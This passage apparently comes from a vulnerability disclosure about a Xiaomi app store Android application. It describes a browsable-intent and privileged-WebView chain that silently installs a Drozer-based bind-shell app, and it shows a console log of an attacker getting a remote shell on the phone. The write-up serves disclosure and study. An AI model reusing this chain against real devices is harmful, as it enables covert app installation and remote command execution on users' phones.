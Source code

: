The target device should then use a web browser to browse to `http://<attacker’s server>/index.html` and click on the hyperlink present on the webpage. When this happens, the above JavaScript will execute which will result in the application “Sunfish” being installed and opened on the device without the user’s consent. 

Sunfish is a re-skinned version of Drozer, which starts a bind shell on network interfaces on the device. From there, its possible for the attacker to connect to Sunfish and execute arbitrary commands:

```
root@2ee5edd7a244:/# sunfish console connect --server <phone IP address>
Selecting 746aece8a83d73e2 (Xiaomi 2210132G 13)

                              _.'.__
                           _.'      .
     ':'.               .''   __ __  .
       '.:._          ./  _ ''     '-'.__
     .'''-: '''-._    | .                '-'._
      '.     .    '._.'                       '
         '.   '-.___ .        .'          .  :o'.
           |   .----  .      .           .'     (
            '|  ----. '   ,.._                _-'
             .' .---  |.''  .-:;.. _____.----'
             |   .-''''    |      '
           .'  _'         .'    _'   Sunfish
          |_.-'            '-.'

sunfish Console (v2.4.4)
sunfish> shell
:/data/user/0/com.<redacted>.sunfish $ whoami
u0_a302
:/data/user/0/com.<redacted>.sunfish $ id
uid=10302(u0_a302) gid=10302(u0_a302) groups=10302(u0_a302),3003(inet),9997(everybody),20302(u0_a302_cache),50302(all_a302) context=u:r:untrusted_app_27:s0:c46,c257,c512,c768
```

## Technical Details

### Browsable Intent Details

The exported activity `com.xiaomi.market.ui.JoinActivity` can be launched via Browsable Intent and executes different Java functions based on the contents of said Browsable Intent. One of the functions, called `handleBrowse(Uri)`, can launch a privileged WebView with a potentially dangerous JavaScript Interface. This function can be executed if the “data” within the Browsable Intent contains the following:

* A “scheme” value of `mimarket`
* A “host” value of `browse`

To limit potential attacks which abuse the JavaScript Interface, the application will not let `handleBrowse(Uri)` launch the privileged WebView unless the URL is whitelisted. The logic for assessing and validating URLs can be found in class `com.xiaomi.market.util.UrlCheckUtilsKt` method `isUrlMatchLevel(String, HostLevel, boolean)`.

